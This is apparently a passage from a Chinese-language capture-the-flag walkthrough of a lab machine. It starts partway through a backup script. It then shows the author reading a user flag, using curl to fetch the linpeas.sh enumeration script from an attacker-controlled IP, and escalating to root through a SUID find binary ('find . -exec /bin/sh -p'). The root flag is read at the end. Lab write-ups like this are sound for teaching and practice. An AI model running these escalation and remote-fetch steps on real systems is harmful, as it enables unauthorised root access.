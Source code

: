                 if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "# # # # # # # # # # # # # # # # # # # # " >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi

```


切换stoner，拿到user flag：```.secret```
```
stoner@Vulnerable:/home$ cd stoner
stoner@Vulnerable:~$ ls
stoner@Vulnerable:~$ ls -alh
total 16K
drwxr-x--- 3 stoner stoner 4.0K Aug 22  2019 .
drwxr-xr-x 4 root   root   4.0K Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4.0K Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret
You made it till here, well done.

```


枚举提权漏洞，因为不能使用wget，用curl把linpea下载到本地:

```curl -O http://10.13.21.169:8000/linpeas.sh```


发现一个可以用于提权的SUID：```find```
```
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
#  id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
#  whoami
root
#  cd /root
#  ls
root.txt
#  cat root.txt
It wasn't that hard, was it?
#  
